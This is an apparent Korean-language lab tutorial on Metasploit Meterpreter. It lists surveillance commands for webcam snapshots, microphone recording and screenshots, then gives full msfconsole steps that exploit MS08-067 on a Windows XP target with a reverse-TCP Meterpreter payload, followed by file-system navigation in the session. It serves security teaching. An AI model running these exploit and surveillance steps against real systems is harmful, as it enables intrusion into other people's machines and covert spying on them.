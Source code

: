 → 웹캠으로부터 keystroke, screenshot, snapshot 얻음

- idletime : 공격대상 pc가 몇 초동안 가동되지 않았는지 출력
- screenshot : 활성화된 데스크탑의 스크린샷 찍음
- record_mc : x초간 기본 마이크를 통해 오디오 녹음
- webcam_list : 웹캠 리스트 나열
- webcam_snap : 웹캡으로부터 스냅샷 가져옴



### 실습 1) Stdapi Extension - File System

stdapi extension 중 file system command를 연습해보자

칼리 리눅스에서 root 계정 진입 후 윈도우 XP를 타겟 컴퓨터로 하여 exploit, set payload, run

취약점 ms08-067 사용

```
root@kali:~# msfconsole
msf5 > search ms08-067
msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp_allports
msf5 exploit(windows/smb/ms08_067_netapi) > show options
msf5 exploit(windows/smb/ms08_067_netapi) > set RHOST [공격대상 IP]
msf5 exploit(windows/smb/ms08_067_netapi) > set LHOST [Kali IP]
msf5 exploit(windows/smb/ms08_067_netapi) > run
```

미터프리터 세션이 열렸으면 앞에서 소개한 명령어들을 실행시키며 연습해보자 

```
meterpreter > pwd //타겟 시스템의 현재 디렉토리 출력
meterpreter > lpwd //로컬 시스템의 현재 디렉토리 출력
```

현재 공격대상과 로컬 컴퓨터 디렉토리 위치를 확인할 수 있다.

현재 위치하고 있는 디렉토리는 c\windows\system32 이다. cd 명령어를 이용해 현재 위치를 변경해보자 

```
meterpreter > cd ..
meterpreter > pwd
```

cd .. 명령어를 이용하면 현재 위치하고 있는 디렉토리의 바깥 디렉토리로 이동하게 된다.

WINDOWS 폴더로 이동해보고 현재 위치를 확인해보자
